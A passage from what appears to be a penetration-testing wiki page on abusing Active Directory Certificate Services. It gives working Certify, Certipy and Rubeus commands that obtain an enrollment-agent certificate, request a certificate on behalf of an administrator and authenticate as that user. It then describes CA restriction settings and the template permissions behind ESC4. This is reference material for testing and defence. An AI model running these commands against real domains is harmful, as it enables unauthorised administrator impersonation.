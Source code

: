 ### Abuse

You can use [**Certify**](https://github.com/GhostPack/Certify) or [**Certipy**](https://github.com/ly4k/Certipy) to abuse this scenario:

```bash
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of
# another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```

The **users** who are allowed to **obtain** an **enrollment agent certificate**, the templates in which enrollment **agents** are permitted to enroll, and the **accounts** on behalf of which the enrollment agent may act can be constrained by enterprise CAs. This is achieved by opening the `certsrc.msc` **snap-in**, **right-clicking on the CA**, **clicking Properties**, and then **navigating** to the “Enrollment Agents” tab.

However, it is noted that the **default** setting for CAs is to “**Do not restrict enrollment agents**.” When the restriction on enrollment agents is enabled by administrators, setting it to “Restrict enrollment agents,” the default configuration remains extremely permissive. It allows **Everyone** access to enroll in all templates as anyone.

## Vulnerable Certificate Template Access Control - ESC4

### **Explanation**

The **security descriptor** on **certificate templates** defines the **permissions** specific **AD principals** possess concerning the template.

Should an **attacker** possess the requisite **permissions** to **alter** a **template** and **institute** any **exploitable misconfigurations** outlined in **prior sections**, privilege escalation could be facilitated.

Notable permissions applicable to certificate templates include:

* **Owner:** Grants implicit control over the object, allowing for the modification of any attributes.
* **FullControl:** Enables complete authority over the object, including the capability to alter any attributes.
* **WriteOwner:** Permits the alteration of the object's owner to a principal under the attacker's control.
* **WriteDacl:** Allows for the adjustment of access controls, potentially granting an attacker FullControl.
* **WriteProperty:** Authorizes the editing of any object properties.
